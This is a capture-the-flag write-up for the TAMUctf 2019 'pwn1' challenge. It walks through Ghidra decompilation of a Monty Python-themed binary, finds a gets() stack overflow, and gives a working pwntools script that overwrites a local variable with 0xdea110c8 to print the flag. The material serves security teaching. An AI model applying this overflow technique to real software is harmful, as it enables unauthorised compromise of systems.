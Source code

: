 # Tamu19 pwn1

Let's take a look at the binary:

```
$    file pwn1
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
$    pwn checksec pwn1
[*] '/Hackery/pod/modules/bof_variable/tamu19_pwn1/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
15935728
I don't know that! Auuuuuuuugh!
```

So we can see that it is a `32` bit binary with RELRO, a Non-Executable Stack, and PIE (those binary mitigations will be discussed later). We can see that when we run the binary, it prompts us for input, and prints some text. When we take a look at the main function in Ghidra we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Removing unreachable block (ram,0x000108bb) */

undefined4 main(void)

{
  int strcmpResult0;
  int strcmpResult1;
  char input [43];
 
  setvbuf(stdout,(char *)0x2,0,0);
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  strcmpResult0 = strcmp(input,"Sir Lancelot of Camelot\n");
  if (strcmpResult0 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  strcmpResult1 = strcmp(input,"To seek the Holy Grail.\n");
  if (strcmpResult1 == 0) {
    puts("What... is my secret?");
    gets(input);
    puts("I don\'t know that! Auuuuuuuugh!");
    return 0;
  }
  puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So right off the back, we can see we are dealing with a reference to one of the greatest movies ever (Monty Python and the Holy Grail). We can see that it will scan input into `input` using `fgets`, then compares our input with `strcmp`. It does this twice. The first time it checks for the string `Sir Lancelot of Camelot\n` and the second time it checks for the string `To seek the Holy Grail.\n`. If we don't pass the check the first time, it will print `I don\'t know that! Auuuuuuuugh!` and exit. For the second check if we pass it, the code will call the function `gets` with `input` as an argument. The function `gets` will scan in data until it either gets a newline character or an EOF. As a result, on paper there is no limit to how much it can scan into memory. Since the area it is scanning into is finite, we will be able to overflow it and start overwriting subsequent things in memory.

Also looking at the assembly code for around the `gets` call, we see something interesting that the decompiled code doesn't show us:
```
        000108aa e8 71 fc        CALL       gets                                             char * gets(char * __s)
                 ff ff
        000108af 83 c4 10        ADD        ESP,0x10
        000108b2 81 7d f0        CMP        dword ptr [EBP + local_18],0xdea110c8
                 c8 10 a1 de
        000108b9 75 07           JNZ        LAB_000108c2
        000108bb e8 3d fe        CALL       print_flag                                       undefined print_flag()
                 ff ff
```

So we can see that it compares the contents of `local_18` to `0xdea110c8`, and if it is equal (which would mean it's zero) it calls the `print_flag` function. Looking at the decompiled code for `print_flag`, we see that it prints the contents of `flag.txt`:
```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void print_flag(void)

{
  FILE *flagFile;
  int flag;
 
  puts("Right. Off you go.");
  flagFile = fopen("flag.txt","r");
  while( true ) {
    flag = _IO_getc((_IO_FILE *)flagFile);
    if ((char)flag == -1) break;
    putchar((int)(char)flag);
  }
  putchar(10);
  return;
}
```

So if we can use the `gets` call to overwrite the contents of `local_18` to `0xdea110c8`, we should get the flag (if you're running this locally you will need to have a copy of `flag.txt` that is in the same directory as the binary). So in order to reach the `gets` call, we will need to send the program the string `Sir Lancelot of Camelot\n` and `To seek the Holy Grail.\n`. Looking at the stack layout in Ghidra (we can see it by double clicking on any of the variables in the variable declarations for the main function) shows us the offset between the start of our input and `local_18`:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[2]:     00010807(W),
                                                                                                   00010869(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     00010779(*)  
             int               EAX:4          strcmpResult0                           XREF[1]:     00010807(W)  
             int               EAX:4          strcmpResult1                           XREF[1]:     00010869(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[2]:     000107b4(W),
                                                                                                   000108b2(R)  
             char[43]          Stack[-0x43]   input                                   XREF[5]:     000107ed(*),
                                                                                                   00010803(*),
                                                                                                   0001084f(*),
                                                                                                   00010865(*),
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:000105e6(*), 00010ab8,
                                                                                          00010b4c(*), 00011ff8(*)  
        00010779 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]

```

So we can see that `input` starts at offset `-0x43`. We see that `local_18` starts at offset `-0x18`. This gives us an offset of `0x43 - 0x18 = 0x2b` between the start of our input and `local_18`. Then we can just overflow it (write more data to a region than it can hold, so it spills over and starts overwriting subsequent things in memory) and overwrite `local_18` with `0xdea110c8`. Putting it all together we get the following exploit:

```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./pwn1')

# Make the payload
payload = b""
payload += b"0"*0x2b # Padding to `local_18`
payload += p32(0xdea110c8) # The value we will overwrite local_18 with, in little endian

# Send the strings to reach the gets call
target.sendline(b"Sir Lancelot of Camelot")
target.sendline(b"To seek the Holy Grail.")

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:
```
$ python3 exploit.py 
[+] Starting local process './pwn1': pid 6006
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
[*] Process './pwn1' stopped with exit code 0 (pid 6006)
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

Just like that, we got the flag!
